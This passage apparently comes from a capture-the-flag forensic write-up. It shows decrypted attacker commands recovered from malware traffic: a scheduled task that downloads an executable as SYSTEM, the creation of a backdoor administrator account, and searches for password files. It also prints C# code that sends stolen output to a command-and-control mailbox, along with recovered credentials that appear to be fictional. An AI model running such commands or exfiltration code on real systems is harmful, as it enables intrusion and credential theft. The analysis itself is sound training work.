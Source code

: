 ```python

for cmd in commands:
    print(decrypt(cmd))
```

When we run this script, we will get the following output:

```bash
┌──(.venv)─(pshegger㉿suki)-[~/…/ctf/2025/CyberApocalypse/silent_trap]
└─$ python decrypt_commands.py
whoami /priv
tasklist /v
wmic qfe get Caption,Description,HotFixID,InstalledOn
schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add
net localgroup Administrators devsupport1 /add
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password"
dir C:\ /s /b | findstr "password"
more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
```

### Flag 6

Our last task is to figure out what was the `API` key, that was extracted by the attacker. To find it, we need to go back to the malware first, and figure out how it's sending the output back to the `C2 server`. We will find a method called `create`, that receives the encrypted output as parameter.

```c#
private static void create(string text)
{
	text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + comp_id + "\r\n\r\n" + text;
	int length = text.Length;
	byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + length + "}\r\n" + text + "\r\n");
	Task.Factory.FromAsync(ssl.BeginWrite, ssl.EndWrite, bytes, 0, bytes.Length, ssl);
}
```

Looking at the code, we can see that `text` becomes the body of a new message, that is then added to `Inbox`. We can use the `APPEND` command to filter the packets in `Wireshark` (`_ws.col.info contains "Request: $ APPEND Inbox"`). The last packet is the one we're looking for. We can use the script from the previous flag to decrypt the body and get the following output:

```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0

[Game API]
host=api.korptech.net
api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
host=dev-build.korptech.net
username=devops
password=BuildServer@92|7Gy1lz'Xb
```